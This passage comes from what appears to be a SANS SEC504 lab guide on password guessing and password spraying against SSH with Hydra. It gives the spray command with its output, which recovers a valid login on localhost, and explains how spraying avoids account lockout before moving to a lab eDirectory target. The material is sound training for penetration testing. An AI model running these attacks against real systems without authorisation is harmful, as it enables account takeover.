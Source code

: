 The warning and error messages can be safely ignored here.
In this configuration, Hydra is conducting a password guessing attack using four concurrent guessing tasks (-t 4). By default, Hydra will use 16 concurrent tasks when the -t argument is not specified. This will lead to false-negative responses on some servers. Reducing the number of concurrent tasks to four is optimal for SSH password guessing.

### Password Spray with Hydra

Our examples using Hydra so far have been password guessing attacks. In many servers, this type of attack will trigger an account lockout after a number of failed guesses, often with no opportunity for the attacker to differentiate a bad password from a correct password against a locked account.

Alternatively, we can specify a large number of user accounts, with one or a small number of passwords to use Hydra in a password spray attack configuration.

Repeat the Hydra attack, this time specifying a single password sec504 with a list of 49 usernames, supplied in the users.txt file:

    sec504@slingshot:~/labs/passhydra$ wc -l users.txt
    49 users.txt
    sec504@slingshot:~/labs/passhydra$ hydra -t 4 -L users.txt -p sec504 ssh://127.0.0.1
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (http://www.thc.org/thc-hydra) starting at 2020-07-26 13:12:02
    [DATA] max 4 tasks per 1 server, overall 4 tasks, 49 login tries (l:49/p:1), ~13 tries per task
    [DATA] attacking ssh://127.0.0.1:22/
    [22][ssh] host: 127.0.0.1   login: sec504   password: sec504
    1 of 1 target successfully completed, 1 valid password found
    Hydra (http://www.thc.org/thc-hydra) finished at 2020-07-26 13:12:27

In this attack, we are able to recover the password for the sec504 account, while avoiding a potential account lockout, since we've only attempted to log in once for each individual username.

### Stop the SSH Service

To finish this portion of the lab exercise, stop the SSH service using the killall command, as shown here:

    sec504@slingshot:~/labs/passhydra$ sudo killall sshd

Note that you will not receive any output from the killall command.

Next, we'll apply these steps in a practical attack environment.

## eDirectory Target

For the next portion of this lab exercise, repeat the Hydra password guessing or password spray attacks using the eDirectory target. First, start the target server by running the gohydratgt command, as shown here:

    sec504@slingshot:~/labs/passhydra$ gohydratgt
    Starting Docker service ..... Done.
    ffe27d85b26c9d94a1d9858d6a78fdbc59cfd884b331ee71bb8b09b726a8f329
    2019-12-28 12:35:03,008 INFO Set uid to user 0 succeeded
    2019-12-28 12:35:03,016 INFO supervisord started with pid 7
    2019-12-28 12:35:04,021 INFO spawned: 'nginx' with pid 9
    2019-12-28 12:35:04,026 INFO spawned: 'php-fpm' with pid 10
    2019-12-28 12:35:04,029 INFO spawned: 'sshd' with pid 11
    [28-Dec-2019 12:35:04] NOTICE: fpm is running, pid 10
    [28-Dec-2019 12:35:04] NOTICE: ready to handle connections
    Server listening on 0.0.0.0 port 22.
    Server listening on :: port 22.
    2019-12-28 12:35:05,149 INFO success: nginx entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)
    2019-12-28 12:35:05,149 INFO success: php-fpm entered RUNNING state, process has stayed up for > than 1 seconds (startsecs)